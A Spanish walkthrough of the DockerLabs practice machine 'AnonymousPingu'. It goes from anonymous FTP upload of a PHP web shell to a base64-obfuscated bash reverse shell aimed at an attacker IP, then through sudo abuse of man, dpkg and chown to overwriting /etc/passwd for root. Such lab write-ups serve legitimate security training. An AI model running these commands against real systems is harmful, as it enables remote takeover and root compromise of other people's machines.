# Maquina AnonymousPingu - DockerLabs.es



Verificar que la maquina este desplegada correctamente



Realizamos un ping a la máquina para verificar la comunicación y confirmamos que la conexión es exitosa.



A continuación, realizamos un escaneo de la IP utilizando Nmap.



Observamos que el puerto 21 y 80 estan abiertos. Ahora realizamos un escaneo adicional para detectar, enumerar servicios y versiones.



Vemos que el puerto 21 esta corriendo un FTP en su version 3.0.5 y el 80 un Apache 2.4.58.

Al acceder a través del navegador, observaremos lo siguiente:

Al aplicar fuzzing, descubriremos algunos directorios interesantes, como `upload`.





Observamos que el puerto 21 tiene habilitado el acceso FTP con el usuario por defecto `anonymous`, sin requerir contraseña. Al conectar mediante FTP, podemos ver varios directorios, entre ellos uno llamado upload.

Al conectarnos por FTP usando ftp ip-servidor con el usuario `anonymous` y listar el contenido con `ls`, confirmamos que los archivos coinciden con los encontrados durante el fuzzing. Además, notamos que tenemos permisos de escritura en el directorio upload.



A continuación, nos moveremos al directorio upload con el comando cd upload y subiremos un archivo de prueba para verificar que es el mismo directorio visible en la web.

Primero, creamos un archivo de prueba con el comando `touch prueba.txt`, luego insertamos información en él con `echo "hola" > prueba.txt`.

Desde el prompt de FTP, mientras estamos dentro del directorio upload, subiremos el archivo `prueba.txt` utilizando el comando `put`. El comando completo sería: `put /home/kali/Desktop/DockerLabs/Easy-Terminar/AnonymousPingu/prueba.txt prueba.txt`.



Confirmamos que el archivo se subió con éxito.

Ahora, al acceder a la web y navegar a la ruta upload, podemos ver el archivo que subimos mediante FTP.





A continuación, subiremos una shell en PHP, o algún otro archivo que permita la ejecución de comandos.

Creamos un archivo llamado `pwned.php` y lo subimos al directorio upload utilizando el comando `put`, de la misma manera que hicimos con el archivo `.txt` anteriormente.



Ahora, al abrir el archivo `pwned.php` desde el navegador y enviar el parámetro cmd con el comando `whoami`, confirmamos que podemos ejecutar comandos en el servidor.



A continuación, enviaremos una reverse shell a nuestra máquina atacante.

Primero, convertiremos la reverse shell a formato base64.



Nos pondremos a la escucha en el puerto 4444 utilizando Netcat con el comando `nc -nvlp 4444`.



Luego, ejecutaremos el siguiente comando para decodificar y ejecutar la reverse shell en formato base64:

`echo "c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjEuMTMxLzQ0NDQgMD4mMQo=" | base64 -d | bash`

Presionamos Enter para iniciar la reverse shell.



Y vemos que ya estamos dentro.



## Tratamiento de la TTY

**Para trabajar de manera mas cómoda haremos lo siguiente:**
Una vez estemos dentro ejecutamos el siguiente comando: `script /dev/null -c bash`

Luego presionamos: `Ctrl + Z` para suspender el proceso

A continuación, escribimos: `stty raw -echo; fg`

Despues ingresamos: `reset`

Cuando se nos pregunte: "Terminal type?" Ingresamos `xterm`.

Finalmente, exportamos las siguientes variables de entorno: `export TERM=xterm` `export SHELL=bash`

Y listo!

## Escadala de Privilegios

Al ejecutar el siguiente comando:

`cat /etc/passwd | grep "sh$"`

Podemos ver una lista de usuarios. Nos centraremos en los usuarios gladys y pingu.



Al ejecutar `sudo -l`, observamos que tenemos permiso para ejecutar el binario `/usr/bin/man` como el usuario `pingu`, sin necesidad de proporcionar una contraseña.



Ahora intentaremos escalar privilegios al usuario `pingu` explotando los permisos de sudo sobre el binario `/usr/bin/man`. Lo haremos de la siguiente manera:





Ahora vemos que somos el usuario `pingu`.



Al ejecutar `sudo -l` con el usuario pingu, veremos lo siguiente:

Podemos ejecutar los binarios `/usr/bin/nmap` y `/usr/bin/dpkg` como el usuario `gladys`, sin necesidad de proporcionar una contraseña.



Intentaremos explotar los permisos del binario /usr/bin/dpkg de la siguiente manera:







Al realizar la explotación, confirmamos que ahora hemos cambiado al usuario `gladys`.

A continuación, al ejecutar `sudo -l` con el usuario `gladys`, veremos que tenemos permiso para ejecutar el binario `/usr/bin/chown`.



Al consultar GTFObins, observamos que podemos utilizar el binario `/usr/bin/chown` para cambiar los permisos de un archivo mediante el grupo y el usuario con el que estamos logueados.



Al ejecutar el comando sudo chown $(id -un):$(id -gn) /etc/passwd, podremos observar los cambios en los propietarios y grupos del archivo /etc/passwd.



Ahora, podemos modificar el archivo `/etc/passwd` para cambiar la contraseña del usuario root. Para ello, crearemos una nueva contraseña utilizando `openssl passwd` y reemplazaremos la `x` en la entrada de root con el hash generado.

Primero, crearemos una copia de seguridad del archivo `/etc/passwd` actual y la transferiremos a nuestra máquina atacante. Luego, sustituiremos la `x` en la línea correspondiente al usuario root con el hash de contraseña que hemos generado.





A continuación, subiremos el archivo modificado passwd a la máquina víctima utilizando FTP, dado que no contamos con `wget` en dicha máquina.



Nos dirigimos a la carpeta `upload` y luego ejecutamos el siguiente comando para sobrescribir el archivo `/etc/passwd` con el archivo passwd que hemos subido:

`cat passwd > /etc/passwd`



Ahora, accedemos como root utilizando la contraseña para la cual generamos el hash con `openssl passwd`. Con esto, hemos obtenido acceso con privilegios de root.


